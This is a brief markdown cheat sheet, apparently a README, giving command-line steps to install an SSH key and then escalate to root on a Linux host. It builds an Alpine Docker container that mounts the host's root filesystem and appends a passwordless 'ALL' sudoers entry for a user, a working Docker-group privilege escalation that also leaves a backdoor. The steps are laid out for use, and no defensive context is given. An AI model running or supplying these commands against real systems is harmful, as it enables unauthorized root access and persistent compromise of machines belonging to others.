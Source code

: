 #### Copy Id 
```
ssh-copy-id -i id_rsa.pub user@ip
```
#### privilege escalation
- make directory
```
mkdir /home/user/directory
cd /home/user/directory
```
- build Dockerfile
```
FROM alpine
ENV WORKDIR /directory
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

- build and run container 
```
docker build -t directory .
docker run -v /:/directory -it directory /bin/sh
```
- get root privilages 
```
echo "username ALL=(ALL) NOPASSWD:ALL" >> /directory/etc/sudoers
```
